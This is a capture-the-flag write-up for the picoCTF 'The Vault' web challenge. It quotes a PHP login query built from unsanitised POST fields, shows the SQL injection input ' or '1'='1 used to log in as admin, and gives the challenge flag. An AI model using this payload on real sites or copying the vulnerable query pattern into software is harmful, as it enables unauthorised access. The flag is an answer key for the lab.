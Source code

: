 # The Vault
__Category:__ Web Exploitation   
__Points:__ 250

### Problem:

There is a website running at http://2018shell.picoctf.com:64349 (link). Try to see if you can login!

##### Hints:

### Solution:

The linked webpage is a basic login page, but at the bottom provides a link to the [login.php](login.php) source code.
The important lines are

'''php
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";
'''

The username and password fields are directly used in the sql query string without being properly sanitezed.
I used a basic sql injection in the password field which will always log the user in if the username is valid. I guessed admin as a valid username.

'''
username: admin
password: ' or '1'='1
'''

This changes the password='$password' check to password='' or '1'='1'.

Logging in gave the flag.

### Flag:

picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}
